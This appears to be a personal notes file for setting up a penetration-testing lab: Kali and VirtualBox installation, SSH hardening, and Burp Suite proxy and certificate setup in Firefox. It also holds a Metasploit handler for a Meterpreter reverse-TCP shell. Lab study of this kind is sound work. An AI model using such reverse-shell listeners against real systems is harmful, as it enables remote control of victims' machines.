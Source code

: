 # setup meterpreter
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <kali ip>
set LPORT 5555
```
# Burbsuite
- burpsuite config : proxy/options/listeners/edit/127.0.0.1:8080 loopback only
- firefox config : settings/search proxy/network settings/settings/manual proxy config/set to 127.0.0.1:8080/use proxy for all protocol, socks v5=checked
  - error : "Software is Preventing Firefox From Safely Connecting to This Site"
  - firefox doesn't trust burpsuite for https, but trust only for http
  - go to http://burp/ and get burp certificate to make firefox trust burp
  - firefox/settings/privacy&security/certificates/view certifs/import/burp certif/ok for website and email
  - **warning** : do not add random certificates from non viable certificate authority  

# install VB on kali
- https://www.kali.org/docs/virtualization/install-virtualbox-host/

# setup vulnerable machines and kali
- https://www.rapid7.com/blog/post/2011/12/23/where-can-i-find-vulnerable-machines-for-my-penetration-testing-lab/

install ssh on kali
```
sudo apt-get install openssh-server
sudo systemctl enable ssh
sudo systemctl start ssh
```
kali vm, allow only one host for ssh (host machine)
```
sudo vim /etc/hosts.deny
    sshd: ALL
sudo vim /etc/hosts.allow
    sshd: <host machine ip>
```

change keyboard layout on metasploitabe : [not required](https://zsecurity.org/forums/topic/how-to-change-the-keyboard-layout-on-the-metaspoitable-vm/)

setup network adapter on bridged network to be accessible from hyper-V kali VM [source : Virtual Box Switch Types](https://www.philipdaniels.com/blog/2016/vm-networking-overview/)
